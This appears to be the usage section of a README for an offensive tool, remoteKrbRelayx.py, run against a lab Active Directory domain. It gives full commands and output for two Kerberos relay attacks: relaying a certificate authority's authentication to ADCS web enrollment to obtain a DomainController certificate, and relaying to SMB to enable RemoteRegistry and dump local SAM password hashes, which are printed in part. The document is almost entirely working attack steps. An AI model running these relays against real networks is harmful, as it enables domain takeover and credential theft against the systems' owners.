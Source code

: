 ### The simple cases

#### CertifiedDCOM + ADCS ESC8

This attack works against Certificate Authorities (CAs). Ensure that the template is one that the CA can enroll to.

```
└─$ python3 remoteKrbRelayx.py 'cicada.vl/user:password@dc-jpq225.cicada.vl' -relay-target 'http://dc-jpq225.cicada.vl/certsrv/' -local-ip 10.10.14.65 -k -adcs -template DomainController -victim ca
[*] Setting up RPC Server on port 135
[-] CCache file is not found. Skipping...
[*] Callback added for UUID 99FCFEC4-5260-101B-BBCB-00AA0021347A V:0.0
[*] Callback added for UUID 99FCFEC4-5260-101B-BBCB-00AA0021347A V:0.0
[*] Callback added for UUID 99FCFEC4-5260-101B-BBCB-00AA0021347A V:0.0
[*] Got kerberos auth for spn HOST/dc-jpq225.cicada.vl
[*] Starting attack against http://dc-jpq225.cicada.vl
[*] HTTP server returned status code 200, treating as a successful login
[-] DCOM SessionError: unknown error code: 0x80070001. Note that DCOM errors also happens during successful relays.
[*] Generating CSR...
[*] CSR generated!
[*] Getting certificate...
[*] GOT CERTIFICATE! ID 93
[*] Writing PKCS#12 certificate to ./ca.pfx
[*] Certificate successfully written to file
[*] Shutting down RPC Server
```

#### CertifiedDCOM + SMB

Usually the CA-server does not have special privileges on other machines, so this a bit contrived but:

```
└─$ python3 remoteKrbRelayx.py 'cicada.vl/Administrator:NewPassword1!@dc-jpq225.cicada.vl' -relay-target 'smb://ofwindows1.cicada.vl' -local-ip 10.10.14.65 -k 
[*] Setting up RPC Server on port 135
[-] CCache file is not found. Skipping...
[*] Callback added for UUID 99FCFEC4-5260-101B-BBCB-00AA0021347A V:0.0
[*] Callback added for UUID 99FCFEC4-5260-101B-BBCB-00AA0021347A V:0.0
[*] Callback added for UUID 99FCFEC4-5260-101B-BBCB-00AA0021347A V:0.0
[*] Got kerberos auth for spn HOST/ofwindows1.cicada.vl
[*] Starting attack against smb://ofwindows1.cicada.vl
[-] DCOM SessionError: unknown error code: 0x80070001. Note that DCOM errors also happens during successful relays.
[*] Service RemoteRegistry is in stopped state
[*] Service RemoteRegistry is disabled, enabling it
[*] Starting service RemoteRegistry
[*] Target system bootKey: 0x[Redacted]
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:[Redacted]:::
olefredrik:1001:aad3b435b51404eeaad3b435b51404ee:[Redacted]:::
[*] Done dumping SAM hashes for host: ofwindows1.cicada.vl
[*] Stopping service RemoteRegistry
[*] Restoring the disabled state for service RemoteRegistry
[*] Shutting down RPC Server
```
